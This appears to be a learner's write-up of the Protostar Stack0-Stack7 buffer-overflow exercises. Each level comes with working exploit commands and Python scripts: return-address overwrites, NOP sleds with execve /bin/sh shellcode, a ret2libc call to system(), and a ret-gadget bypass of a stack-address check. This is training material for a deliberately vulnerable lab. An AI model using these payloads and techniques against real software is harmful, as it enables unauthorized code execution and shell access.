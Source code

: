 # Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
![stack4_1](./images/stack4_1.png)     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    
![stack4_2](./images/stack4_2.png)
The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html) | [2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)    
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    
![stack5_1](./images/stack5_1.png)


## [Stack6](https://exploit-exercises.com/protostar/stack6/)
This challenge is a tough one. While looking at the hints, I just have the basic knowledge about those methods. I'm not so skillful at these methods. I have to learn some new stuff to pass this challenge.     
First, I went through the source code. This time, the program will validate the return address after getting buffer from Stdin. The validation is:    
```if((ret & 0xbf000000) == 0xbf000000) {..._exit(1);}```    
That means, if the return address starts with 0xbf, then the program will terminate. From previous challenges, we can know the our stack has the 0xbf addressses. Obviously, we cannot overwrite the EIP with an address in our controlled stack simply.     
We still gotta verify it (it's not mandatory but..Uh, I'm just curious). Again, use gdb to find out the addresses. For getpath() frame, EBP at 0xbffff808, EIP at 0xbffff80c. Buffer starts from 0xbffff7bc. The offset is 80. 
![stack6_1](./images/stack6_1.png)    
### Method1 [ret2libc]
It's not surprise that it hits the "exit" branch. We have to think about another way to attack. So I first looked at [ret2libc](./readings/ret2libc.pdf). This is a very basic and detailed tutorial. So now I learn what we need to do is ret to the address of system() and pass "/bin/sh" as parameter. Let's have a try!    
I turned into gdb, set a bp, and run stack6. I just print out the stack using ```x/1000s $esp``` to find the "/bin/sh". Luckily, I found it as part of a string. The "/bin/sh" lies at 0xbfffffba. If you cannot find it, you can set "/bin/sh" as the value of an environment variable, and then use it. System()'s address is 0xb7ecffb0.    
![stack6_2](./images/stack6_2.png)    
Also _exit_ and _printf_ functions' address are also necessary. On my side, _exit_ is at 0xb7ec60c0, _printf_ is at 0xb7eddf90.
The structure of the input would be **padding|system()|exit()|"/bin/sh"**. Try it! Ooooops. Not working... The same problem: the address in may be differ from the real one. ([WHY?](http://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)) We can set exec-wrpper in gdb to solve the problem. (We may also look at Core Dump). I tried set a new environment variables with value "```////////////////////////////////////////////////////////////bin/sh```" to make it easier to hit this variable. (It does work)
Also, we can search '/bin/sh' in libc, so that we can avoid the unpredictable changes of environment variables.     
In gdb, at any breakpoint, use ```info proc map``` to find the address of loaded libs. 0xb7e9700 in this case. 
![stack6_3](./images/stack6_3.png)
Then go back to our bash, ``` strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh``` can help us to find the offset of '/bin/sh' in the lib, which is 0x11f3bf. Now we can easily know the address of "/bin/sh".
![stack6_4](./images/stack6_4.png)
Okay, let's do it again.    
```
python -c 'print "A"*80+"\xb0\xff\xec\xb7"+"\xc0\x60\xec\xb7"+"\xbf\x63\xfb\xb7"' > /tmp/stack6
cat /tmp/stack6; cat | ./stack6
```     
![stack6_5](./images/stack6_5.png)
Done!

### Method2 [ROP]
We can bypass the validation of ret address with ret2lib. However, that's not the real arbitary code execution. Even though there're a lot API to use, we cannot run our own shellcode using ret2lib. This time, we will try to bypass the ret validation and still run our shellcode on stack space.     
We gonna find 'ret' instruction in text segment (or wherever the address is not start with 0xbf). The 'ret' instruction is easy to find. In gdb, ```disass main``` ( or any other function also works) and we can find the 'ret' insturcion at 0x08048508. We can overwrite saved EIP with this address. Think about what will happen if the program runs.     
When the program returns from getpaht function, the EIP will point to another 'ret' instruction. Thus, the content at address esp+4 will then be loaded into eip, and this value is not validated. What we gonna do is using the address of 'ret' instruction as saved eip to pass validation, and fill the following address with the address of our shellcode, which works as the 'real' ret adress. 
The rest part are just the same as Stack5.    
My python script:
```
import struct

# start address: 0xbffff7bc
padding = 'A' * 76 + 'B'*4
eip = struct.pack("<I",0x08048508)
addr = struct.pack("<I",0xbffff900)
# start address: 0xbffff814
nops = '\x90' *300
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

payload = padding + eip + addr + nops + shellcode

print payload

```
![stack6_6](images/stack6_6.png)   
    

## [Stack7](https://exploit-exercises.com/protostar/stack7/)
This challenge can be solved with the same as method2 (ROP) in stack6. We only have to find the new addresses.    
The python script:     
```
import struct

# start address: 0xbffff7bc
padding = 'A' * 76 + 'B'*4
eip = struct.pack("<I",0x08048553)
addr = struct.pack("<I",0xbffff7f8)
# start address: 0xbffff7ac
nops = '\x90' *100
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

payload = padding + eip + addr + nops + shellcode

print payload
```
![stack7_1](./images/stack7_1.png)
